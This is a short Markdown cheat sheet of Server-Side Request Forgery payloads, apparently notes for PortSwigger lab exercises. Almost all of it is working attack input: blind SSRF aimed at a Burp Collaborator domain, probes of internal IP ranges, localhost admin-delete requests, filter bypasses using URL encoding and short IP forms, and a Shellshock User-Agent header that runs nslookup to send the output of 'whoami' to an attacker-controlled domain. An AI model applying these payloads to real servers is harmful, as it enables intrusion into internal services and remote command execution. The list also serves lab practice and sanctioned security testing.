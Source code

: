 # Server-Side Request Forgery - SSRF
> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.

## SSRF Blind
Change every param to: http://subdomain.burpcollaborator.net

## SSRF Reflected
1) http://
2) http://$domain - http://subdomain.$domain
3) http://192.168
4) http://127

## PORTSWIGGER
1) search stockApi=http://localhost/admin/delete?username=carlos
2) http://192.168.§0§.§1§:8080/admin
3) http://127.0.0.1/ - http://127.1/ - http://127.1/admin - http://127.1/%2561dmin
4) http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
5) /product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
6) User-Agent: () { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net + Referrer: http://192.168.§0§.§1§:8080,443,80

## Reference
Search Web Services and test ssrfs payloads:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md
